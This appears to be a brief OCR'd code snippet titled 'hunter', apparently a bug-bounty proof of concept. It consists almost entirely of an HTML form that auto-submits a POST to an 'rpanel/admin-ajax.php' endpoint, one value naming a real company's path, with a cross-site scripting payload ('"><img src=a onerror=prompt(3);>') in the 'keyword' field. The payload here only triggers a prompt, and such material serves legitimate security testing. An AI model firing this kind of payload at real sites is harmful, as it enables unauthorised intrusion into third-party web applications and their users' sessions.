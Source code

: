# hunter



<html><form enctype="application/x-www-form-urlencoded" method="POST" action="https://www.exemple.com/rpanel/admin-ajax.php"><table><tr><td>action</td><td><input type="text" value="get_apps" name="action"></td></tr>
<tr><td>id</td><td><input type="text" value="" name="id"></td></tr>
<tr><td>keyword</td><td><input type="text" value="&#34;><img+src=a+onerror=prompt(3);>" name="keyword"></td></tr>
</table><input type="submit" value="https://www.rippling.com/rpanel/admin-ajax.php"></form></html>
